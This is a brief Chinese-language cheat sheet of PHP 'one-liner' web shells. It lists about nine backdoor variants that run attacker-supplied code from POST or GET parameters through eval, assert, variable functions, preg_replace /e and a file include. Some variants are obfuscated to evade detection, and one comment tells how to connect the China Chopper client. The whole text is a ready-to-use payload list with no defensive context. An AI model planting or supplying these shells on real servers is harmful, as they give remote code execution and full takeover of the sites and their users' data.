 ### php一句话

* <?php eval($_POST[sb]);?>
* <?php @eval($_POST[sb]);?>
* <?php assert($_POST[sb]);?>
* <?$_POST['sa']($_POST['sb']);?>
* <?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
* <?php @preg_replace("/[email]/e",$_POST['h'],"error"); ?>
　 //使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
　 <O>h=@eval($_POST[c]);</O>
* <script language="php">@eval($_POST[sb])</script>
* $filename=$_GET['xbid'];
   include ($filename);
* <?php $c='ass'.'ert';${c}($_POST[4]);?>
